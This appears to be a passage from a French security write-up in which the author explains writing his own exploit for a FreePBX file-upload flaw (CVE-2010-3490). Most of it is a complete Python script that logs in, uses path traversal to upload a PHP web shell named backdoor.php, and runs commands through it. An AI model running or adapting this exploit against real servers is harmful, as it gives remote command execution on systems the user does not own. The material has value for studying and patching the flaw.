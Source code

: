 Comme l'exploit de *Metasploit* pour la faille d'upload n'avait pas l'air d'aboutir je me suis basé sur un advisory de *Trustwave's SpiderLabs* trouvé sur *exploit-db* et j'ai codé l'exploit suivant (du coup je l'ai soumis à *SecurityFocus* au cas où) :  

```python
import requests
import random
import string
import sys

# Original advisory : http://www.exploit-db.com/exploits/15098/

print("devloop exploit for FreePBX <= 2.8.0 (CVE-2010-3490)")
if len(sys.argv) != 4:
    print("Usage: {0} <url_to_freepbx_admin_directory> <username> <password>")
    sys.exit()

BASE = sys.argv[1]
USER = sys.argv[2]
PASS = sys.argv[3]
KEYW = "devloop"

if not BASE.endswith("/"):
    BASE += "/"

sess = requests.session()
creds = (USER, PASS)

r = sess.get(BASE + "config.php", auth=creds)
if "Logged in:" in r.content:
    print("[+] Connection successful")
else:
    print("[!] Unable to login... check credentials and url")
    sys.exit()

data = {
    'action': 'recorded',
    'display': 'recordings',
    'usersnum': '../../../../../var/www/html/admin/{0}'.format(KEYW),
    'rname': "".join([random.choice(string.hexdigits) for _ in xrange(10)]),
    'Submit': 'Save'
    }

content = "<?php system($_GET['cmd']); ?>"
files = {
        'ivrfile': ('backdoor.php', content, 'application/octet-stream')
        }
hdrs = {"referer": BASE + "config.php?type=setup&display=recordings"}

r = sess.post(BASE + "config.php?type=setup&display=recordings",
        data=data,
        files=files,
        auth=creds,
        headers=hdrs)

print("[i] Testing shell at address {0}{1}-ivrrecording.php".format(BASE, KEYW))
r = requests.get(BASE + KEYW + "-ivrrecording.php?cmd=uname+-a", auth=creds)
if r.status_code != 200:
    print("[-] Received HTTP code {0} for this url".format(r.status_code))
else:
    print("HTTP 200 OK")
    print r.content
```
